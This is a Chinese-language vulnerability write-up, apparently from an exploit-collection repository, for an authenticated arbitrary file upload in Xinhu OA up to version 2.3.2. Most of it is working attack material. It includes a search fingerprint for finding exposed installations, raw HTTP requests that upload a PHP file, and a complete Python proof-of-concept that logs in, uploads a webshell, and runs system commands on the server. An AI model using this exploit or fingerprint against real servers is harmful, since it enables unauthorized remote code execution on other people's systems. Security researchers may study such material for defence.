 # 信呼OA qcloudCosAction.php 任意文件上传漏洞

## 漏洞描述

信呼 OA <=v2.3.2 版本在`webmain\task\runt\qcloudCosAction.php`云存储下调用了`qcloudCosClassAction`方法，导致文件上传漏洞。通过该漏洞，攻击者可突破上传限制，上传 php 文件获取服务器shell。

利用前提是已经获取了用户名/登陆口令。

参考链接：

- https://github.com/rainrocka/xinhu

## 漏洞影响

```
信呼OA <= 2.3.2
```

## 网络测绘

```
app="信呼协同办公系统"
```

## 漏洞复现

登陆页面：

![](images/信呼OA%20qcloudCosAction.php%20任意文件上传漏洞/image-20240124101156480.png)

登陆系统，找到上传点：

```
任务资源 → 文件传送 → 相关文件
```

上传1.php，记录filepath和id：

```
POST /index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=769871 HTTP/1.1
Host: www.xinhu2.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type:multipart/form-data; boundary=
---------------------------40605609116060410203660967062
Content-Length: 250
Origin: http://www.xinhu2.com
Connection: close
Referer:http://www.xinhu2.com/index.php?m=upload&d=public&callback=&upkey=20220513091317429617&showid=fileidview
Cookie:deviceid=1650359786139;xinhu_mo_adminid=ye0xhh0xte0lp0yy0xtj0xtb0xtv0yy0xxt0jt0xtb0ye0yx0yp0le03;xinhu_ca_adminuser=admin;xinhu_ca_rempass=0;PHPSESSID=hp2qfqngssh75ij0r8j8kg6f47
-----------------------------40605609116060410203660967062
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: application/octet-stream

<?php phpinfo(); ?>

-----------------------------40605609116060410203660967062--
```

查看1.php是否上传成功：

```
GET /task.php?m=qcloudCos|runt&a=run&fileid=9 HTTP/1.1
Host: www.xinhu2.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: deviceid=1650359786139; xinhu_mo_adminid=ye0xhh0xte0lp0yy0xtj0xtb0xtv0yy0xxt0jt0xtb0ye0yx0yp0le03; xinhu_ca_adminuser=admin; xinhu_ca_rempass=0; PHPSESSID=hp2qfqngssh75ij0r8j8kg6f47
Upgrade-Insecure-Requests: 1
```

上传后路径：

```
http://<IP>/upload/2024-01/23_16071247.php
```

## 漏洞POC

poc.py

```python
# 1.php为webshell

# 需要修改以下内容：
# url_pre = 'http://<IP>/'
# 'adminuser': '<ADMINUSER_BASE64>',
# 'adminpass': '<ADMINPASS_BASE64>',

import requests

session = requests.session()
url_pre = 'http://<IP>/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
# url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=<ID>'
data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': '<ADMINUSER_BASE64>',
    'adminpass': '<ADMINPASS_BASE64>',
    'yanzm': ''    
}

r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})
filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
print(filepath)
id = r.json()['id']
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```

